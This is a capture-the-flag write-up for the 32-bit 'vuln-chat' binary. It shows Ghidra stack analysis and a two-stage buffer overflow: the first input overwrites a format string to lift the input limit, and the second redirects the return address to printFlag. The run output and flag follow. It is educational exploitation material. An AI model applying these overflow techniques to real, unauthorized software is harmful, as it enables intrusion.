 # Vuln_chat Writeup

## Steps
1. Important first step is checking what type of file `vuln-chat` is --- This is something we should always check first
```
$ file vuln-chat 
vuln-chat: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=a3caa1805eeeee1454ee76287be398b12b5fa2b7, not stripped
```
`vuln-chat` is a 32-bit executable, rather than 64-bit like we have been looking at so far.

2. When we run vuln-chat we see there are 2 inputs, the first of which gets repeated back to us --- analyze this more in ghidra
```
$ ./vuln-chat
----------- Welcome to vuln-chat -------------
Enter your username: user
Welcome user!
Connecting to 'djinn'
--- 'djinn' has joined your chat ---
djinn: I have the information. But how do I know I can trust you?
user: test
djinn: Sorry. That's not good enough
```
3. Look at the stack variable layout

```
                             **************************************************************
                             *                          FUNCTION                          *
                             **************************************************************
                             undefined main()
             undefined         <UNASSIGNED>   <RETURN>
             undefined1        Stack[-0x5]:1  local_5                                 XREF[1]:     080485c5(W)  
             undefined4        Stack[-0x9]:4  fmt                                     XREF[3]:     080485be(W), 
                                                                                                   080485cd(*), 
                                                                                                   08048630(*)  
             undefined1[20]    Stack[-0x1d]   user                                    XREF[3]:     080485c9(*), 
                                                                                                   080485d9(*), 
                                                                                                   0804861b(*)  
             undefined1[20]    Stack[-0x31]   pwd                                     XREF[1]:     0804862c(*)  
                             main                                            XREF[4]:     Entry Point(*), 
                                                                                          _start:08048487(*), 08048830, 
                                                                                          080488ac(*)  
```
The first input (renamed to 'user') is at `Stack[-0x1d]` and the second input is at `Stack[-0x31]`. There is also fmt which is at `Stack[-0x9]`and has a value of %30s, which limits input to 30 characters.

Since `0x1d - 0x9 = 0x14`, which is 20 in decimal, we can overwrite fmt with input to change the input limit.

4. With the increased character limit, pwd can now be used to overwrite the return address to the address of `printFlag` which is `0x804856b`

5. Create 2 payloads. The first overwrites 20 bytes and changes fmt to "%99s", the greatest string length that can be fit in 4 bytes. The second overwrites `0x31` bytes and changes the return address to the address of `printFlag`

6. Send payloads to process


## Solution
```
$ python3 ex_vulnchat.py
[+] Starting local process './vuln-chat': pid 102471
/home/kali/Binex-Writeups/Nightmare/05-bof_callfunction/03-vuln_chat/ex_vulnchat.py:10: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  p.sendline(payload1)
[*] Switching to interactive mode
----------- Welcome to vuln-chat -------------
Enter your username: Welcome AAAAAAAAAAAAAAAAAAAA%99s!
Connecting to 'djinn'
--- 'djinn' has joined your chat ---
djinn: I have the information. But how do I know I can trust you?
AAAAAAAAAAAAAAAAAAAA%99s: djinn: Sorry. That's not good enough
flag{g0ttem_b0yz}
Use it wisely
[*] Got EOF while reading in interactive
$ 
[*] Process './vuln-chat' stopped with exit code -11 (SIGSEGV) (pid 102471)
[*] Got EOF while sending in interactive

```
